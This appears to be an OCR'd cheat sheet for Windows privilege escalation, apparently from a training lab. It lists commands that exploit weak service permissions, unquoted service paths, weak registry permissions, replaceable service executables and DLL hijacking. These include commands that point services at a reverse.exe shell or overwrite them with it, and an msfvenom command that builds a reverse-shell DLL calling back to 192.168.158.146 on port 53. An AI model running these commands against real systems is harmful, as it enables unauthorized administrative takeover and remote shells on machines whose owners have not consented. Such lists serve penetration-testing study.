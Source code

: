 ```cmd
 sc query daclsvc

```
### Insecure service Permissions

```cmd
 sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe""
```

### Unquoted Service Path

```cmd
 .\accesschk.exe /accepteula -uwdq C:\
 .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
 .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
```
### Weak Registry Permissions

```cmd
> .\accesschk.exe /accepteula -ucvq regsvc
```

```cmd
> powershell -exec bypass
```
```ps
 Get-Acl HKLM:\System\currentcontrolset\services\regsvc
 reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
 reg query HKEY_LOCAL_MACHINE\System\currentcontrolset\services\regsvc
```

### Insecure Service executables


```cmd

 .\accesschk.exe /accepteula -quvw "C:\ProgramFiles\File Permissions Service\filepermservice.exe"

```

```cmd
 .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```
```cmd
 copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```

### DLL Hijacking

```cmd
 .\accesschk.exe /accepteula -uvqc dllsvc
 sc qc dllsvc
```

```zsh
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.158.146 LPORT=53 -f dll -o hijackme.dll
```
